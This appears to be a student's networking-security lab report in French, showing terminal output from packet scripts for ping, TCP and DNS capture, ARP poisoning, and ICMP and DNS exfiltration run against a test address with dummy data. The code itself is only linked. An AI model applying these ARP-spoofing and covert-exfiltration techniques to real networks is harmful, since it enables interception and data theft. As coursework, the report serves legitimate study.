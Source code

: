 # TP4 SECU : Exfiltration 
🌞 ping.py
```
PS C:\Users\tomma\Ynov\B2\B2-Reseau\tp4> python .\ping.py
Begin emission
.
Finished sending 1 packets
..*
Received 4 packets, got 1 answers, remaining 0 packets
Pong reçu : QueryAnswer(query=<Ether  dst=f2:39:c5:c0:07:e5 src=30:89:4a:d2:5a:aa type=IPv4 |<IP  frag=0 proto=icmp src=10.33.73.72 dst=10.33.67.174 |<ICMP  type=echo-request |>>>, answer=<Ether  dst=30:89:4a:d2:5a:aa src=f2:39:c5:c0:07:e5 type=IPv4 |<IP  version=4 ihl=5 tos=0x0 len=28 id=48175 flags= frag=0 ttl=64 proto=icmp chksum=0x1d7a src=10.33.67.174 dst=10.33.73.72 |<ICMP  type=echo-reply code=0 chksum=0xffff id=0x0 seq=0x0 unused=b'' |>>>)
```
[voir code](./scripts/ping.py)

🌞 tcp_cap.py
```
PS C:\Users\tomma\Ynov\B2\B2-Reseau\tp4> python .\tcp_cap.py
TCP SYN ACK reçu !
- Adresse IP src : 104.208.16.89
- Adresse IP dest : 10.33.73.72
- Port TCP src : 443
- Port TCP dst : 50303
```
[voir code](./scripts/tcp_cap.py)

🌞 dns_cap.py
```
PS C:\Users\tomma\Ynov\B2\B2-Reseau\tp4> python .\dns_cap.py
PS C:\Users\tomma\Ynov\B2\B2-Reseau\tp4> nslookup ynoc.com
Serveur :   bbox.lan
Address:  2001:861:4480:5ca0:36db:9cff:fe95:e48c

Réponse ne faisant pas autorité :
Nom :    ynoc.com
Address:  160.251.150.223
```
[voir code](./scripts/dns_cap.py)

🌞 dns_lookup.py
```
PS C:\Users\tomma\Ynov\B2\B2-Reseau\tp4> python .\dns_lookup.py
DNS Ans 104.26.11.233

```
[voir code](./scripts/dns_lookup.py)

## II. ARP Poisoning
🌞 arp_poisoning.py
```
[ton@client1 "]$ arp -a
bbox.lan (192.168.1.254) at 34:db:9c:95:4:8c [ether] on enp0s3
?🌞(192.168.1.46) at de:ad:be:ef:ca:fe [ether] on enp0s3🌞
client2.lan (192.168.1.156) at 08:00:27:cc:c4:2b [ether] on enp0s3
AsusTM.lan (192.168.1.147) at 30:89:4a:2:5a:aa [ether] on enp0s3 
```

## II. Exfiltration ICMP

🌞 icmp_exf_send.py
```
tom@Tom:~/Documents/B2-Reseau/tp4/scripts$ sudo python3 icmp_exf_send.py 10.1.1.1 j
[sudo] password for tom: 
.
Sent 1 packets.
```
[Voir code](./scripts/icmp_exf_send.py)  
🦈[Voir capture WIREWHARK](./Wireshark/icmp_exf_send.pcapng)  

🌞 dns_exfiltration_send.py
```
tom@Tom:~/Documents/B2-Reseau/tp4/scripts$ sudo python3 dns_exfiltration_send.py 10.1.1.1 toto
.
Sent 1 packets.
```
[Voir code](./Scripts/dns_exfiltration_send.py)  
🦈[Voir capture WIREWHARK](./Wireshark/dns_exfiltration_send.pcapng)  
